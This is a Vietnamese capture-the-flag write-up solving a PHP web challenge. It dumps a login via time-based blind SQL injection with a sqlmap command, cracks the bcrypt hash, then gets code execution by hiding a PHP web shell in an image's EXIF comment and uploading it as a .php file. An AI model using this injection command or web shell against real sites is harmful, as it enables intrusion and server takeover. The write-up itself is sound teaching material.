 ![image](../img/27.png)

tiếp theo một bài blackbox khá hay

dùng thử web thì không thấy có gì đặc biệt, mình dùng `wappalazer` thu thập thông tin và biết nó code bằng php

tiến hành fuzzing
![image](../img/28.png)

ok, `account.php`, truy cập thử nào

![image](../img/29.png)

nó cho mình chức năng đăng kí, nhưng

![image](../img/30.png)

nó redirect mình tới trang login này

![image](../img/31.png)

![image](../img/32.png)
vả luôn SQLi nhé ae

có tool ngại gì việc dùng,` sqlmap` luôn mình nhận được 1 tài khoản khả nghi (khá mất thời gian của ae đấy, ae có thể viết script có lẽ sẽ nhanh hơn)

```
└─$ sqlmap -u "https://fruitables-0.ctf.intigriti.io/auth/fruitables_login.php" --data="username=admin&password=admin" -p username --technique=T --batch --dump --time-sec=10 
```

```
username: tjfry_admin
password: $2y$10$xeRysgjnBo5gR7xm0UnekOabT./PYjZwkb0x1Qw1m1KzhuLmXlG5S
````

tuy nhiên pass bị encrypt rồi, mình cần crack. Google cho biết thì đây là mã hóa kiểu `bcrypt`. Mình dùng tiếp tool `John the ripper`

![image](../img/33.png)

oke có username,password là `tjfry_admin:futurama`

![image](../img/34.png)

login vào thấy có thêm chức năng upload file, mình đã test thì nó chỉ cho upload file ảnh, cần bypass để upload file php -> RCE

exploit:
1. Tạo file ảnh
2. Sử dụng tool `exiftool` để inject comment code php vào file ảnh đã tạo
3. upload file to RCE

```
exiftool -comment='<?php system($_GET[0]); ?>' a.png 
mv a.png{,.php}
```

upload file

![image](../img/35.png)

RCE thôi nàoo

![image](../img/36.png)

cat flag

![image](../img/37.png)

FLAG: `INTIGRITI{fru174bl35_vuln3r4b1l17y_ch3ckm8}`


